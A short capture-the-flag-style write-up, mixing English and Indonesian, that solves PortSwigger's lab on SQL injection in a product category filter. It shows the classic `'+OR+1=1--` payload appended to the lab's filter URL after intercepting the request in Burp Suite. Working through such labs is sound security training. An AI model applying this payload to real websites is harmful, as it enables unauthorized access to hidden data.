


# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data (PortSwigger)

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT \* FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

## Steps

1. Gunakan Burp Suite untuk menangkap (intercept) dan mengubah request yang dipakai aplikasi saat memilih kategori produk.

2. Ubah nilai parameter **category** menjadi `+OR+1=1--`. Ketika kita akses salah satu kategorinya didapatkan URL sebagai berikut:

`https://0a03008f0444d9938229b03200da008b.web-security-academy.net/filter?category=Gifts`

selanjutnya hanya perlu menambahkan payload:

`https://0a03008f0444d9938229b03200da008b.web-security-academy.net/filter?category=Gifts'+OR+1=1--`

